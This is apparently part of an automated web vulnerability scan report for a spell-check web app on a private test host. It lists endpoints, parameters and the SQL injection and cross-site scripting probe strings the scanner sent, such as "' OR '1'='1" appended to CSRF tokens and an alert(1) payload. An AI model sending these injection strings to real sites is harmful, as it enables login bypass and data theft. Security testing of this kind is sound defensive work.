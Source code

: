   
  
  
* URL: [http://192.168.7.30:8080/login?next=%2Fspell_check](http://192.168.7.30:8080/login?next=%2Fspell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `password`
  
  
  * Attack: `zakk1989%"  -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/spell_check](http://192.168.7.30:8080/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `inputtext`
  
  
  * Attack: `+alert(1)+ OR 1=1 -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/register](http://192.168.7.30:8080/register)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `ImEzYjY1YjQxOTg5YTEzM2E0ODdhNWUxMTY3MzNkNzI4Y2IzYzZjYTQi.XbITjg.rwaIwtLSVpjjZ-Qi7Oc-3saOGJk' OR '1'='1`
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  
  
  * Attack: `IjYxNGU2YWM5YzJlNzdiZTJiNTBjMzBlZmVmNTU0NmM3Yzk5MDhmZWYi.XbC8WQ.TM4FPbi_zW5-ggkjwVD0OtCebSU' AND '1'='1' -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/spell_check](http://192.168.7.30:8080/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `submit`
  
  
  * Attack: `Submit' AND '1'='1`
  
  